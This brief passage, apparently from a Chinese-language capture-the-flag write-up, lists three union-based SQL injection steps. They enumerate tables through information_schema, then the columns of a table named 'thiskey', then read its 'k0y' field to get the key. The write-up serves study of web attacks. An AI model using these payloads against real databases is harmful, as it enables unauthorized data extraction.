 分三步走
> 1. `union select table_name,table_schema from information_schema.tables where table_schema = database()` 获得本数据库内所有的表
> 2. `union select 1,column_name from information_schema.columns where table_name = 'thiskey'` 通过上一步得知有一个叫 thiskey 的表, 获得其中的字段
> 3. `union select 1,k0y from thiskey` 通过上一步知道有一个叫 k0y 的字段, 获得其值